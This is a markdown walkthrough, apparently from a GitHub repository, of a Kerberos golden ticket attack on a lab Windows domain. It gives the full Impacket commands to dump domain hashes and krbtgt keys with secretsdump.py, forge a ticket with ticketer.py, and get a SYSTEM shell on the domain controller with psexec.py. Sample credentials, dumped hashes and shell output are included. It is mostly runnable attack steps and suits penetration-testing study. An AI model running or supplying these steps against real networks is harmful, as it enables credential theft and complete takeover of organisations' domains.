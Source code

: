 # Kerberos Golden Ticket Attack

## Dumping hashes from DC using Impacket secretsdump.py

If you have access to an account that is able to dump domain credentials, either due to being a domain admin or having excessive privileges, the following command can be used:

`sudo python secretsdump.py marvel.local/administrator:Password123\!@hydra-dc.marvel.local`

Where `marvel.local` is the domain `administrator:Password123\!` is the username and password of the user that has the privileges to dump the domain hashes and `hydra-dc.marvel.local` is the fully qualified domain name (FQDN) of the domain.

The output from the dump should look something like:

```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x56ab23a1c4f8bdc81875a194b1cecce5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3174e6ed5e2e8747ad5cc3fcfa73aab5:::

[...SNIP...]

[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:fe846f3874239696cdb0bb491b9dfc33eeebc727c67dbf2dee58e401e9ee754e
Administrator:aes128-cts-hmac-sha1-96:ffbcc24e1b5b9e6f20c23d2d6adec791
Administrator:des-cbc-md5:efe0bf683746c4df
krbtgt:aes256-cts-hmac-sha1-96:47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5
krbtgt:aes128-cts-hmac-sha1-96:c6fbe3420417a94ac4f9418e4b966f3d
krbtgt:des-cbc-md5:fe8f45195770e952
MARVEL.LOCAL\fcastle:aes256-cts-hmac-sha1-96:c95bf1bf87ec3dc738a676e4372d263480fea0ececc44fbab8e3343a5fab8cfe

```

The Kerberos NTLM hash or AES Keys can be used to create a golden ticket.  In the example below using `ticketer.py` the AES 256 key `47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5` was used.

## Create Golden Ticket using Impacket ticketer.py

`python ticketer.py -aesKey 47edef840303d581bca8b8c09f587363ca755a926984b49e4297cd6bfc74bce5 -domain-sid <Domain_SID_HERE> -domain <domain.name> <anyusernamehere>`

This will generate a <username>.ccache file in the current directory.  Move the <username>.ccache file to /tmp/<username.ccache>
  
Set the following variable within the bash terminal:

`export KRB5CCNAME='<username>.ccache'`

## Editing /etc/hosts File

Now you will need to add your domain details and IP address to your /etc/hosts file.  In my case my domain name is marvel.local and the Domain Controller is named hydra-dc.marvel.local and is at 10.0.2.15:

```
10.0.2.15   hydra-dc.marvel.local
10.0.2.15   marvel.local

```

## Impacket psexec.py

Once everything above has been set you will now be able to use Impackets psexec.py script to get a shell on the domain controller as NT AUTHORITY\SYSTEM using the following command:

`sudo python psexec.py -k -no-pass marvel.local/badman@hydra-dc.marvel.local`

The output should look like:

```
[+] Trying to connect to KDC at MARVEL.LOCAL
[+] Using Kerberos Cache: /tmp/badman.ccache
[+] SPN CIFS/HYDRA-DC.MARVEL.LOCAL@MARVEL.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/MARVEL.LOCAL@MARVEL.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at MARVEL.LOCAL
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

Note that in the command above you MUST specify the fully qualified domain name for the domain controller `hydra-dc.marvel.local`.  If you only specify the IP address it will not work and show the error:

```
KerberosError: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Also the ticket must be generated and used within the 20 minute time-frame as described in the article here "https://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html"
